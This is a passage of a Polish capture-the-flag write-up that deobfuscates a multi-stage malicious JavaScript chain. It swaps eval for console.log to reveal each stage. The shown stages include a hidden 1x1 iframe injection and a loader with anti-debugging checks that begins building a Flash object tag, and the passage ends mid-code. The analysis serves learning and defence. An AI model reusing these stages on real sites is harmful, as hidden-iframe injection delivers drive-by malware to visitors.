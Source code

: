 ```javascript
	}
	return ret;
}

function tPC(nojMia) {
    var SKOx = nojMia.charCodeAt(0) + (nojMia.charCodeAt(1) << 8) + (nojMia.charCodeAt(2) << 16) + (nojMia.charCodeAt(3) << 24);
    return isNaN(SKOx) ? 0 : SKOx;
}

function uyGi(SKOx) {
    var nojMia = String.fromCharCode(SKOx & 255, SKOx >> 8 & 255, SKOx >> 16 & 255, SKOx >> 24 & 255);
    return nojMia;
}

main(realMain, 'oU5qRoGfenAszlAOKYBE')
```

To kod już po mojej częściowej deobfuskacji (zmiana nazw kilku funkcji, beautifikacja, etc) i wycięciu checków. Tutaj podobnie jak w poprzednim przypadku, wystarczyło wyciąć kilka checków i dodać `console.log(plZla)` zamiast `eval(plZla)`.
Dzięki temu otrzymałem kolejny stage.

```javascript
if (document.referrer != "") {
    var iframe = document.createElement("iframe");
    iframe.src = "depress-choose-opportunity-staircase.html";
    iframe.frameBorder = 0;
    iframe.width = "1";
    iframe.height = "1";
    document.body.appendChild(iframe);
};
```

(To kod po deobfuskacji). Jak widać, po prostu tworzony jest iframe w który wstrzykiwane jest `depress-choose-opportunity-staircase.html`.

Co znajudje się pod tym adresem?

Mniej więcej taki kod:

```javascript

window['gWRqmBVp'] = '1';

function xWait(xT) {
    var date = new Date();
    var tmpDate = null;
    do {
        tmpDate = new Date();
    } while (tmpDate - date < xT);
}

function xTrueA() {
    if (navigator.userAgent.indexOf('TMCTF') == -1 && navigator.appVersion.indexOf('ctf/') == -1) {
        return;
    }
    if (!!window.__IE_DEVTOOLBAR_CONSOLE_COMMAND_LINE || ('__BROWSERTOOLS_CONSOLE_SAFEFUNC' in window)) {
        return;
    }
    var mirtul = '1',
        ci = 'clsid:';
    var txt = '<object classid="' + ci + 'd27cdb6e-ae6d-11cf-96b8-444553540000" allowScriptAccess="always" width="1" height="1" id="23kjsdf">';
```